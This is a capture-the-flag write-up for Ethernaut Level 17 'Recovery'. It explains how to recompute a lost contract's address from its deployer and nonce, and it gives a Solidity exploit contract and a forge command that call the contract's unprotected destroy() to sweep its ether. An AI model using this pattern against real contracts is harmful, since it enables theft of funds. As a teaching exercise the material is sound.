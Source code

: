 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/17-recovery.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 17 - Recovery</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [Reference](#reference)

## Objectif

<img src="../assets/requirements/17-recovery-requirements.webp" width="800px"/>

## The hack

From the contract code, we can see that there is a public `destroy()` function that can be used to self-destruct the contract and force send the eth to an arbitrary address. So the challenge is to find the address of the contract that was created by the `Recovery` factory.

The easiest way to find it is to paste the `Recovery` contract address in your favorite block explorer and check for the first (and only) contract deployed from this factory! But... that is not exactly what The Ethernaut is trying to teach us here.

Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where:

- `address` is the address of the contract (or the Ethereum address that created the transaction);
- `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Based on that, how to retrieve the contract address without a block explorer?

Since Ethereum addresses are deterministic, we can manually re-calculate the lost address.

- The `Recovery` contract address is `0x2333215479D476895b462Ff945f3aF5bA2d0652e` (Replace with your instance address)
- The nonce is 1 or `0x01` (contracts are initialized with nonce 1)

We can use the following code to calculate the address:

```java
bytes32 hash = keccak256(
    abi.encodePacked(bytes1(0xd6), bytes1(0x94), recoveryAddress, bytes1(0x01))
);
address lostAddress = address(uint160(uint256(hash)));
```

`bytes1(0xd6)` and `bytes1(0x94)` are constants related to [Recursive-Length Prefix](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp/) (RLP) to encode arbitrarily nested arrays of binary data.

Now that we have the address, we can call the `destroy()` function to recover the funds.

## Solution

Here is the full code:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

// Lost address: 0x9938f099Cb6d3f666C5C168830aDD46952EF421B

interface ISimpleToken {
    function destroy(address to) external;
}

interface IRecovery {}

contract RecoveryService {
    address private immutable recovery;

    constructor(address _recovery) {
        recovery = _recovery;
    }

    function recoverAddress() public view returns (address) {
        bytes32 hash = keccak256(
            abi.encodePacked(bytes1(0xd6), bytes1(0x94), recovery, bytes1(0x01))
        );
        return address(uint160(uint256(hash)));
    }

    function recoverFund() public {
        ISimpleToken(recoverAddress()).destroy(msg.sender);
    }
}
```

You can use the following command to run the forge script:

```bash
forge script script/17_Recovery.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Ethereum addresses are deterministic and are calculated by `keccak256(address, nonce)`.

## Reference

- [How is the address of an Ethereum contract computed?](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed)
- EIP161: https://eips.ethereum.org/EIPS/eip-161
- Ethereum quirks: https://swende.se/blog/Ethereum_quirks_and_vulns.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
